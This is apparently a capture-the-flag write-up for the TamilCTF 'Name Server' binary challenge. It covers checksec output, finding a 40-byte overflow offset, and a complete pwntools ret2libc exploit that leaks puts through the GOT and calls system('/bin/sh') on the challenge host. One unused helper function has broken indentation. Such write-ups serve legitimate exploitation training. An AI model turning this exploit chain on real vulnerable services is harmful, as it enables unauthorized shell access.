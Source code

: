 # TamilCTF

# NAME SEVER 214 Points ,58 solves


## Checksec Output
```bash
╭─ ~/Desktop/Tamilctf/nameserver/nameserver │ sam0x@parrot                                                                                                                                 ✔ 
╰─ checksec name-serv 
[*] '/home/sam0x/Desktop/Tamilctf/nameserver/nameserver/name-serv'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```



## Analysing the binary on Ghidra


![screenshot](Pasted image 20210930131942.png)

#### There is no input bound checking 
#### NX is enabled so no shellcoding
#### We can use basic ROP chaining attack to exploit this

## Exploiting

#### TO FIND / CONSTRAINS
           
The lic version is unknown 
			
*since we  know it's a 64 bit binary we just cant directly modify the rsp *
*We cant overwrite RSP with 8 byte value , only 6 Bytes can be used else we get general protextion error * (Canonical and non canonical address comes to play )*
#### Using GEF & finding offset

![[Pasted image 20210930134637.png]]


*we overflow the rbp after 32 bytes *
*so to overwrite the rsp we neet to overwrite rbp +6 *
*i.e we overflow rbp after 32 bytes then the rbp value to rsp value*
*offset = 40*

## The exploitation part



      from pwn import *

      offset = b'A'*40

      ##pwntools context

      context.update(arch='amd64', os='linux')
      p=remote('3.97.113.25', 9001)
      # p=process('name_server_patched')
      elf=ELF('./name-serv',False)
      rop=ROP(elf)



      ##leaking GOT address
      puts_plt=elf.plt['puts']
      puts_got=elf.got['puts']
      main_plt=elf.symbols['main']
      pop_rdi= (rop.find_gadget(['pop rdi', 'ret']))[0]
      ret= (rop.find_gadget(['ret']))[0]


      payload = offset +p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main_plt) 

      p.recvuntil(b':')
      p.sendline(payload)
      recieved = p.recvline().strip()

      # Parse leaked address

      log.info(f"Len rop1: {len(payload)}")
      leak = u64(recieved.ljust(8, b"\x00"))
      log.info("libc address of puts :" + hex(leak))

      ##setting up libc base

      libc=ELF('libc6_2.31-0ubuntu9_amd64.so')
      libc.address = leak - libc.symbols['puts'] #Save libc base
      log.info("libc base @ %s" % hex(libc.address))


      ##Systm(/bin/sh)Payload

      bin_sh = next(libc.search(b"/bin/sh\x00"))
      system=libc.symbols['system']

      log.info("Bin/sh :" + (hex(bin_sh)))
      log.info("System :" + (hex(system)))


      def generate_payload_aligned(ropp):
        payload1 = offset + ropp
          if (len(payload1) % 16) == 0:
          return payload1

          else:
               payload2 = offset + p64(ret) + ropp

           if (len(payload2) % 16) == 0:
                   log.info("Payload aligned successfully")
                   return payload2
               else:
                   log.warning(f"I couldn't align the payload! Len: {len(payload1)}")
                   return payload1

      payload2= offset + p64(ret)+p64(pop_rdi)+p64(bin_sh)+p64(system)

      log.info("length of payload2 is "  + str(len(payload2)))
      print(p.recvuntil(b':'))
      p.sendline(payload2)
      p.interactive()


*WE GET THE FLAG *
## TamilCTF{ReT_1s_M0rE_p0wErFu1_a5_LIBC}
